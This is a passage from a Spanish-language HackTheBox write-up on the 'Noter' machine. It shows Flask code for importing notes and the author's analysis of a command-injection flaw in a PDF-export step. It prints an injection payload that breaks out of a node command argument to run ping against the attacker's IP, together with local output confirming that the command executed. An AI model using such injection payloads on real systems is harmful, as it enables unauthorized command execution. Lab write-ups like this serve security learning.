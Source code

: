 ```null
>     if check_VIP(session['username']):
>         if request.method == 'GET':
>             return render_template('import_note.html')
> 
>         elif request.method == "POST":
>             title = request.form['title']
>             url = request.form['url']
> 
>             status, error = parse_url(url)
> 
>             if (status is True) and (error is None):
>                 try:
>                     r = pyrequest.get(url,allow_redirects=True)
>                     md = "\n\n".join(r.text.split("\n")[:])
> 
>                     body = markdown.markdown(md)
>                     cur = mysql.connection.cursor()
>                     cur.execute("INSERT INTO notes(title, body, author, create_date ) VALUES  (%s, %s, %s ,%s) ", (title, body[:900], session['username'], time.ctime()))
>                     mysql.connection.commit()
>                     cur.close()
> 
>                     return render_template('import_note.html', msg="Note imported successfully!")
> 
>                 
>                 except Exception as e:
>                     return render_template('import_note.html', error="An error occured when importing!")
> 
>             else:
>                 return render_template('import_note.html', error=f"An error occured when importing! ({error})")
> 
>     else:
>         abort(403)
> 
Common subdirectories: app_backup_1/misc and app_backup_2/misc
Common subdirectories: app_backup_1/templates and app_backup_2/templates
```

Las credenciales de ```MySQL``` están hardcodeadas en el código. Se está ejecutando con ```subprocess.run``` un comando a nivel de sistema empleando una ```bash```. Se está pasando como argumento el campo ```body``` de las notas que se crean. La forma de ejecutarlo es a través del método de la URL, ya que está dentro de la función. Creo un payload que me permita escapar de este contexto y ejecutar comandos. Al hacer click en exportar la nota, se debería de ejecutar

```null
node misc/md-to-pdf.js  $'';ping -c 1 10.10.16.4; echo '' {rand_int}
node:internal/modules/cjs/loader:1042
  throw err;
  ^

Error: Cannot find module '/home/rubbx/Desktop/HTB/Machines/Noter/misc/md-to-pdf.js'
    at Module._resolveFilename (node:internal/modules/cjs/loader:1039:15)
    at Module._load (node:internal/modules/cjs/loader:885:27)
    at Function.executeUserEntryPoint [as runMain] (node:internal/modules/run_main:81:12)
    at node:internal/main/run_main_module:23:47 {
  code: 'MODULE_NOT_FOUND',
  requireStack: []
}

Node.js v18.13.0
PING 10.10.16.4 (10.10.16.4) 56(84) bytes of data.
64 bytes from 10.10.16.4: icmp_seq=1 ttl=64 time=0.321 ms
```